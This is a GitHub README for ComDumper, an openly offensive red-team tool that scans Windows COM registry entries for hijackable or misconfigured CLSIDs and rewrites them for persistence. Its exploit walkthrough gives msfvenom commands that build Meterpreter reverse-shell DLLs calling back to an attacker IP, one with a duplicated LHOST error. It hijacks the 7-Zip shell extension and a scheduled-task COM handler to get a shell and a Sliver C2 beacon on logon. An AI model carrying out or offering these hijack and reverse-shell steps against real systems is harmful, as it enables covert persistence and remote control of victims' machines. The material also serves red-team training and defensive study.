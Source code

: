 # ComDumper

A Simple C# red team tool to enumerate and analyze COM registry objects for hijackable entries, missing binary paths, access control misconfigurations, and simulate persistence via registry modification.
For more details about COM exploitation demos, take a look at my blog 
## Compiling code using VS csc compiler

```powershell
csc /r:System.DirectoryServices.AccountManagement.dll ComDumperV.cs /out:ComDumper.exe
```
## Usage

![image](https://github.com/user-attachments/assets/f9120ac3-23bd-4ce0-a9d7-bb893ca6f537)

## Features

### Search and Dump CLSIDs

- `-sA`: Scan and dump all COM CLSIDs from the registry.
- Supports limiting the number of results with `-n <number>`.
- Output can be saved as a CSV file (`-o <file>`) or printed verbosely with `--verbose`.
  ```powershell
  .\ComDumper.exe -sA --verbose -n 2
  ```
![image](https://github.com/user-attachments/assets/1179ab96-24a0-4b42-86b7-e0809c8969fa)

dumping all COM CLSIDs to a CSV file
```powershell
.\ComDumper.exe -sA -o comCLSIDs.csv
```
![image](https://github.com/user-attachments/assets/de0ffc1f-512e-4498-99cf-aa074a004a40)

### Filtering Options for Search Results

- `-fg <group>`: Filter entries by registry group.
- `-fu <user>`: Filter entries writable by a specific user (e.g., `BUILTIN\Users`).
- `-fa <access>`: Filter entries based on access control.
- `-fo <owner>`: Filter entries by registry key owner.
- `--filter-access <string>`: Filter entries by partial access control string.
- `--missing` / `-m`: Filter entries where the COM server file (DLL or EXE) is missing from disk.
- `--vulnerable`: Filter entries considered vulnerable (missing or hijackable).
- `--hijackable`: Filter entries that are hijackable.
- `--unresolvedsid`: Filter entries with unresolved SIDs (e.g., `S-1-5-*`).
- 
Some filters, like missing, are better used when you have admin access while looking for persistence entries. Otherwise, they can sometimes falsely report files as missing simply because the program doesn’t have permission to read privileged locations like C:\Windows\System32\.

hunting for FullControl Access over a COM object we can use filters
```powershell
 .\ComDumper.exe -sA --verbose  -fa "FullControl" -fu "ippyokai"
```
Note that the user filter `-fu` also checks the group memberships of the user. Since my `ippyokai` user is a local admin, it will have a lot of FullControl access rights.
We can search for the explicit Write access for a user as follows or using regx.
```powershell
 .\ComDumper.exe -sA --verbose  -fa "COMMANDO\ippyokai (FullControl)"
```
![image](https://github.com/user-attachments/assets/92f120a3-3c63-485e-9c99-43f285713476)

### Individual CLSID Search

- `-s --clsid <CLSID>`: Query detailed information about a specific CLSID.
 From the previous example, we can take the 7-Zip shell extension CLSID `{23170F69-40C1-278A-1000-000100020000}` to get more info.
![image](https://github.com/user-attachments/assets/f4c5d3d0-6d4e-4e4f-aa29-d5e7b665d41f)

### Exploit Mode

- `-e --clsid <CLSID> --dll <path>`: Replace the COM DLL path in the registry for the specified CLSID.
- `-e --clsid <CLSID> --exe <path>`: Replace the COM EXE path in the registry for the specified CLSID.
- `--hkcu`: Apply the hijack under the current user registry hive (HKCU) instead of the local machine hive (HKLM).
For exploit mode, it’s simple: without --hkcu, the tool changes the registry entry to the given DLL or EXE. With the --hkcu option, it performs a hijack by adding a registry entry under HKCU to override the DLL from HKLM. Be careful to create a proper DLL that proxies calls to the original one to maintain system functionality. You can use FaceDancer, as I demonstrated in my blog.

We can create a simple proof of concept here since we have FullControl over the 7-Zip shell extension COM registry.
generate first a simple dll with  `msfvenome`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=4444 -f dll -o shell.dll
```
adding the dll  `ComDumper` backup it automaticaly so you can recover it later.
![image](https://github.com/user-attachments/assets/1c6b6196-004f-47da-a8f8-510de25985b7)

By navigating to a folder containing ZIP files, we can observe that `explorer.exe` loads `shell.dll`.
![image](https://github.com/user-attachments/assets/0bf130b5-aa07-48df-bebe-cfe1cedfcedc)

we have got the shell
![image](https://github.com/user-attachments/assets/737e31ff-e43d-44d2-9382-9279409a733d)

now can recover it back
![image](https://github.com/user-attachments/assets/43240580-fb13-46f9-8f2e-13a241b948fc)

For `--hkcu` mode, we can enumerate COM objects used by scheduled tasks using the [Get-ScheduledTaskComHandler.ps1]()https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Get-ScheduledTaskComHandler.ps1 script, created by Matt Nelson and Matthew Graeber. I will might add a C# class to enumerate scheduled tasks later.

```powershell
. .\Get-ScheduledTaskComHandler
Get-ScheduledTaskComHandler -PersistenceLocations
```
we can take an example for this mode using `CacheTask`.
![image](https://github.com/user-attachments/assets/802b8c81-ed06-4cef-9ad7-f450a07c94f9)

we can verify that the entry comes from HKLM.
![image](https://github.com/user-attachments/assets/c6d32948-1398-4348-9d24-fa32e4a3a17c)

Generate a DLL as in the previous step.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=8443 -f dll -o Rabbit.dll
```

Now I'm going to use this DLL as a staged payload for Sliver C2. check too with out `--hkcu` we have got access denied cause can't write to HKLM directly.
![image](https://github.com/user-attachments/assets/7ce118a8-56c5-495c-a672-3317d4c0f9b5)

Re-login with any user, and the beacon call will be triggered.
![image](https://github.com/user-attachments/assets/27b44d28-1f1e-4dd2-adee-e1446dafc6fe)

Clean up again just remove the entry.
```powershell
$clsid = '{0358B920-0AC7-461F-98F4-58E32CD89148}'
$path = "HKCU:\Software\Classes\CLSID\$clsid"

if (Test-Path $path) {
    Remove-Item -Path $path -Recurse -Force
    Write-Host "[+] COM hijack removed from HKCU for CLSID $clsid"
} else {
    Write-Host "[-] No COM hijack found under HKCU for CLSID $clsid"
}
```

---

## 📚 References & Acknowledgements

I would like to acknowledge and thank the authors and contributors of the following outstanding resources and blogs that greatly enhanced my understanding of COM abuse techniques and persistence mechanisms:

- **Fakroud, Mohamed** – Playing Around COM Objects - Part 1, Red Teaming Dojo  
  https://mohamed-fakroud.gitbook.io/red-teamings-dojo/windows-internals/playing-around-com-objects-part-1

- **DerbyCon 2019** – COM Hijacking Techniques, Slideshare presentation  
  https://www.slideshare.net/slideshow/com-hijacking-techniques-derbycon-2019/169871173

- **SpecterOps Team** – Revisiting COM Hijacking, SpecterOps Blog (May 28, 2025)  
  https://specterops.io/blog/2025/05/28/revisiting-com-hijacking/

- **PentestLab Team** – Persistence: COM Hijacking, PentestLab Blog (May 20, 2020)  
  https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

These resources provided valuable insights, technical deep-dives, and practical examples that were instrumental in shaping the development of this tool and the learning journey behind it.


